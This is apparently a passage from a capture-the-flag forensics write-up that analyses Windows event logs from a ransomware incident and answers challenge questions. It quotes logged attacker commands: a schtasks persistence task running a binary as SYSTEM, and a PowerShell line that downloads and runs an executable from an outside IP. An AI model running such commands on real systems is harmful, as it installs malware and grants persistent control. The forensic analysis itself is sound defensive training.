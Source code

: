 ```
    OriginalFileName: schtasks.exe
    ParentCommandLine: '"C:\Windows\System32\cmd.exe" /C schtasks /CREATE /SC ONLOGON /TN Loki /TR C:\Users\HoaGay\AppData\Roaming\winlogon.exe /RU SYSTEM /RL HIGHEST /F'
...
```

`winlogon.exe` isn't normally run from an AppData\Roaming folder for a user, so this looks pretty suspicious. 

`schtasks` is the command line interface for the Task Scheduler, and we can see here that it creates an event that runs on login (`/SC ONLOGON`), named "Loki" (`/TN Loki`), that runs a malicious exe as the system account with the highest "run level" (`/RU SYSTEM /RL HIGHEST`).

We can find what all these flags mean by running this command in Windows:

```
schtasks /create /?
```

```
What is the name of the task scheduled by the ransomware? (for example: WindowsUpdater)
> Loki

What are the parent process name and ID of the ransomware process? (for example: svchost.exe_4953)
>
```

This command will find any events with both `mscalc.exe` and `ParentProcessId` in it, and it returns 21 results that we have to go through.

```
.\chainsaw search -e ".*mscalc.exe.*ParentProcessId.*" .\forensics_valhalloween
```

We find all the malicious commands that the malware runs among these events, but we're looking for the parent of the actual ransomware process. 

In the event we found for the first question, we saw the command that the "dropper" script used:

```
"\tNewEngineState=Stopped\r\n\tPreviousEngineState=Available\r\n\r\n\tSequenceNumber=15\r\n\r\n\tHostName=ConsoleHost\r\n\tHostVersion=5.1.19041.3031\r\n\tHostId=38c9afb1-adc2-427a-b407-845545ddfe41\r\n\tHostApplication=powershell.exe (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','C:\\Users\\HoaGay\\AppData\\Local\\Temp\\mscalc.exe');start-process 'C:\\Users\\HoaGay\\AppData\\Local\\Temp\\mscalc.exe'\r\n\tEngineVersion=5.1.19041.
```

This is powershell, and we can tell that it downloaded a file named `mscalc.exe` from an IP address, and then ran it with `start-process`. So, we can assume we're looking for an event where `mscalc.exe` is in the "Command" field (and probably the "Image" field as well), and where it's parent process is the powershell interpreter.

Looking through the 21 events we got with `.\chainsaw search -e ".*mscalc.exe.*ParentProcessId.*" .\forensics_valhalloween`, near the top we find these two events:

```
Event:
  EventData:
    CommandLine: powershell.exe  (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe');start-process 'C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe'
    Company: Microsoft Corporation
    CurrentDirectory: C:\Users\HoaGay\Documents\Subjects\
    Description: Windows PowerShell
    FileVersion: 10.0.19041.3393 (WinBuild.160101.0800)
    Hashes: MD5=DFD66604CA0898E8E26DF7B1635B6326
    Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
    IntegrityLevel: Medium
    LogonGuid: 335CB4AA-604E-650A-8DB4-040000000000
    LogonId: '0x4b48d'
    OriginalFileName: PowerShell.EXE
```